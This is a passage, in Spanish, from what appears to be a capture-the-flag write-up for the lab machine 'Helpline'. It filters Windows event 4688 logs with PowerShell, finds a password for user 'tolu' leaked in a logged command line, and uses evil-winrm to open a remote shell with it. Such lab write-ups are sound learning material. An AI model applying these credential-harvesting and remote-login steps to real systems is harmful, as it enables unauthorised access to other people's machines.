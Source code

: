 ```null
-----------                     -- ---------------- -------                                                                                                                                                      
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:15 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:14 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:12 AM          4688 Information      A new process has been created....                                                                                                                           
1/30/2023 9:52:11 AM          4688 Information      A new process has been created....                                                                                                                           
```

Por cada proceso que encuentre, únicamente me interesa quedarme con el comando que ha sido ejecutado

```null
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} | Get-WinEventData | Select e_CommandLine | ft -AutoSize
```

Se leakea la contraseña del usuario tolu

```null
C:\Windows\system32\systeminfo.exe" /S \\helpline /U /USER:tolu /P !zaq1234567890pl!99
```

Pertenece al grupo Remote Management Users, así que me conecto por winrm. Pero sigo sin poder ver la flag

```null
evil-winrm -i 10.10.10.132 -u 'tolu' -p '!zaq1234567890pl!99'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tolu\Documents> whoami
helpline\tolu
```